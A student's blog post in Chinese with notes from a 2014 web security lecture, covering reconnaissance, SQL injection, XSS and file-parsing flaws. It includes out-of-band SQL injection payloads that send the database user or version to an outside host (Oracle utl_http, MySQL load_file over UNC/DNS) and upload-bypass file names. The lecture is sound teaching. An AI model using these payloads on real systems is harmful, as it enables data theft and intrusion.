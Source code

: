 ```yaml
---
layout: post
title: 'Secure Programming 2014-12-16'
category: note
slug: secure-programming-20141216
---
```

2014/12/16 Secure Programming Class Note

今天的課程請到 Orange Tsai 大大，講題為 Web Security。

-  三大面向（交集：思路）
   -  技術
   -  經驗
   -  技巧

[SQL Injection 練習網站][1]

## Injection Flaw

-  SQL injection
-  cross site script
-  code injection
-  LDAP injection
-  XPATH injection
-  command injection

## 資訊搜集

-  Web Fingerprints
   -  wappalyzer, whatweb, recon-ng
-  經驗
   -  Header
   -  Python 遇到錯的編碼容易掛掉
   -  錯誤頁面
   -  Google
      -  "site:www.nctu.edu.tw ext:php"
   -  Strust2
      -  ?actionError=1
   -  RESTful
      -  `http://xxxx/show/id/1`
      -  `http://xxxx/show.php?id=1`
-  Dictionary Attack
   -  路徑
   -  /admin
   -  /phpmyadmin
   -  /sourcecode.zip

## SQL Injection

-  Union based
-  Error based
-  Blind based
-  Time based
-  Out of band（讓 database 把東西丟出來）
   -  Oracle
      -  `request.utl_http('http://orange.tw/'\|\|(select user from dual))`
   -  MySQL (along with Windows)
      -  UNC path (\\127.0.0.1\c$)
      -  load_file(concat('\\\\',version(),'.orange.tw\cxx'))
         -  5.1.3.orange.tw
      -  dnslogger -> skullsecurity nbtools

## Cross Site Scripting (XSS)

-  <http://pwn.orange.tw>
-  svg onload
-  Tweetdeck XSS Emoji

## PHP 語言鬆散特性

-  Wordpress 漏洞
-  2014 台大學生會長選舉網站 preg_match() === 0
-  Apache feature
   -  "hacker.php.xxx" works
-  Nginx + PHP (舊版)
   -  又稱 Nginx 文件解析漏洞（但其實不是 Nginx 的漏洞）
      -  圖檔嵌入 PHP code
      -  big.jpg/.php
      -  <http://pastebin.com/robots.txt>
         -  Content-Type = text/plain
      -  <http://pastebin.com/robots.txt/a.php>
         -  Content-Type = text/html
-  IIS + ASP (IIS 6 以下)
   -  分號 parsing 錯誤
      -  "xxx.asp;a.jpg"
   -  名稱為 ".asp" 結尾的 directory 其下的檔案都會被當成 ASP 來執行
      -  /a.asp/avatar.jpg 當成 asp 執行
-  Java
   -  sessioin fixation
   -  "1.jsp" 不可執行但 "1.jsp;" 可以

## Tools

-  Firefox (OSWASP mantra)
   -  Cookie Manageer
   -  FoxyProxy
   -  HackBar
   -  Modify Headers
      -  Include shellshock testing each HTTP request
   -  Tamper Data
   -  Wappalyzer
   -  X-Forwarded-For
      -  127.0.0.1
-  Burp Suite

[1]: http://sqli.exp.tw
